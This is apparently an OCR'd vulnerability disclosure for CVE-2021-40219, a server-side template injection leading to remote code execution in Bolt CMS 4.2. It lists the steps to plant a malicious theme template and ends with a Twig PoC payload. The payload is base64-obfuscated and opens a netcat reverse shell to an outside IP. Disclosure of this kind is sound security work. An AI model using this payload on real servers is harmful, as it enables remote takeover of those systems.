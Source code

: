 
<h1>CVE-2021-40219</h1>
Bolt CMS SSTI to Remote Code Execution


Reported by S1lv3r

Description :

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php on line 25 that is about
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

-
https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Fro
ntend/TemplateController.php#L25 # TemplateController.php line 25:
return $this->render($templates, []);
-
1- The authenticated user edit theme by going to file management -> view/edit themes
2- Inject our PoC payload that will run system command
3- Go to Edit Page then create new page and choose our malicious template
4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC

Version :
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

Attack Type:
Remote

Impact :
Remote Command Execution


PoC : 

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```
